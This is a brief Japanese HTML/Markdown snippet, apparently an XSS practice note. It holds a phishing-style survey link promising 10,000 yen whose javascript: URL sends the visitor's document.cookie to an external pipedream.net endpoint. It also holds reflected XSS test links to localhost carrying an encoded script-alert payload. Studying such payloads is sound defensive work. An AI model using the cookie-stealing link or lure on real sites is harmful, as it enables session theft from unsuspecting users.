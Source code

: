 # いろいろ対円だった

アンケートを実施しています<br>
今答えたら1万円<br>
<a href=javascript:window.location='https://enf4x5mbbhtg7.x.pipedream.net/?'.concat(document.cookie);>アンケート</a>

<a href>http://localhost/?param=%3Cscript%3Ealert(0)%3C/script%3E
<a href="http://localhost/?param=%3Cscript%3Ealert(0)%3C/script%3E">テックアカデミー</a>
